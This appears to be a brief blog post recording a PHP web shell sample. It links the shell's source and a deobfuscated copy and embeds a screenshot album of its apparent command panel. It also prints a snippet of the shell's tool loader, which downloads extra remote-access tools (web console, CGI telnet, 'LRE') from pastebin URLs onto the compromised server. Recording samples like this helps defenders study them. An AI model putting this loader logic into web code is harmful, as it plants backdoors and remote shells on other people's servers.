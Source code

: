 ```yaml
---
layout: post
title:  "Example phpshell"
date:   2020-04-24 12:30:45 +0100
categories:
---
```


# src:

```https://gist.github.com/delyee/bd017c6bb9473191b7eb312f1fce3d1d```

# cnc?

<blockquote class="imgur-embed-pub" lang="en" data-id="a/mpcPphv"><a href="//imgur.com/a/mpcPphv"></a></blockquote><script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>

# other utils

```php
if ($name === "adminer") $get = array(
        "https://www.adminer.org/static/download/4.3.1/adminer-4.3.1.php",
        "adminer.php"
    );
    elseif ($name === "webconsole") $get = array(
        "https://pastebin.com/raw/2i96fDCN",
        "webconsole.php"
    );
    elseif ($name === "cgitelnet1") $get = array(
        "https://pastebin.com/raw/Lj46KxFT",
        "idx_cgi/cgitelnet1.idx"
    );
    elseif ($name === "cgitelnet2") $get = array(
        "https://pastebin.com/raw/aKL2QWfS",
        "idx_cgi/cgitelnet2.idx"
    );
    elseif ($name === "LRE") $get = array(
        "https://pastebin.com/raw/PVPfA21i",
        "makman.php"
    );
```

# deobf:

```https://gist.github.com/delyee/b564cb0b4d5230d748d6c6e0b83691eb```



